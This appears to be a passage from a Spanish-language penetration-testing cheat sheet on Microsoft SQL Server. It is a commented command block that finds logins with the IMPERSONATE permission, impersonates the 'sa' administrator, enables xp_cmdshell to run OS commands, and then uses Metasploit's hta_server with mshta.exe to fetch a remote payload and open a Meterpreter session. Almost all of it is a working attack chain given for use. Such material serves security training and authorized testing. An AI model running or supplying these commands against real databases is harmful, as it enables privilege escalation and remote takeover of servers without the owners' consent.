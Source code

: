 <br>

<h3 id="MSSQL4">Tratando de Suplantar a un Usuario</h3>

```bash
# Este comando muestra todos los usuarios o roles del servidor que tienen el permiso "IMPERSONATE", que les permite suplantar la identidad de otros usuarios.
select distinct b.name from sys.server_permissions a INNER JOIN sys.server_principals b on a.grantor_principal_id = b.principal_id where a.permission_name = 'IMPERSONATE'


# Muestra el nombre del usuario actual
select system_user 


# Cambia el contexto de ejecución para actuar como si fueras el usuario `sa` (el usuario "System Administrator" en SQL Server, con privilegios de sysadmin).
execute as login = 'sa'


# Cambia el contexto de ejecución para actuar como si fueras el usuario `dbuser`.
execute as login = 'dbuser'
select system_user


# Suplanta al usuario sa siendo dbuser
execute as login = 'sa'
select system_user


# Habilita la xp_cmdshell
enable_xp_cmdshell


# Ejecutando el comando whoami con xp_cmdshell
exec xp_cmdshell "whoami"


# Usano hta_server para obtener sesión de meterpreter
msfconsole -q
use exploit/windows/misc/hta_server
exploit


# Usando mshta.exe para ejecutar exploit hta_server y obtener sesion de meterpreter
exec xp_cmdshell "mshta.exe http://copiar y pregar aquí la URL local del exploit"


# Viendo las sesiones activas
sessions
```

Aquí puedes encontrar más información:
* <a href="https://learn.microsoft.com/es-es/sql/sql-server/what-is-sql-server?view=sql-server-ver16" target="_blank">¿Qué es SQL Server?</a>
* <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server" target="_blank">HackTricks: Pentesting MSSQL</a>
